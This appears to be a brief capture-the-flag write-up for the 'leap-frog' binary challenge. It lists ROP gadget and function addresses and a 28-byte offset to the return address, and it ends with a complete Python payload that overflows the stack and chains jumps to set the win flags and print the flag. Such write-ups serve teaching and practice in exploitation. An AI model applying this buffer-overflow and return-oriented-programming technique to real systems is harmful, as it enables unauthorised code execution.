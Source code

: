 leap-frog:

Some of the flags are inaccessible, so you have to jump to the specific mov instructions.

"mov byte ptr [eax + 0x3d], 1 ; nop ; pop ebp ; ret (win1 = true)" gadget: 0x080485f3
"mov byte ptr [eax + 0x3e], 1 ; jmp 0x8048667 (win2 = true)" gadget: 0x08048622
"mov byte ptr [eax + 0x3f], 1 ; jmp 0x80486b4 (win3 = true)" gadget: 0x08048690
leapA(): 0x080485e6
leap2(): 0x080485fd
display_flag(): 0x080486b3
start buffer to ret: 28 bytes

You can't just call all of the flag sets directly, since the function references [ebp-4], which will be destroyed with the buffer overflow.



payload: python -c 'print "A"*24 + "\x54\xd2\xff\xff" + "\xe6\x85\x04\x08" + "\x90\x86\x04\x08" + "\x54\xd2\xff\xff" + "\x22\x86\x04\x08" + "B"*4 + "\xb3\x86\x04\x08"'

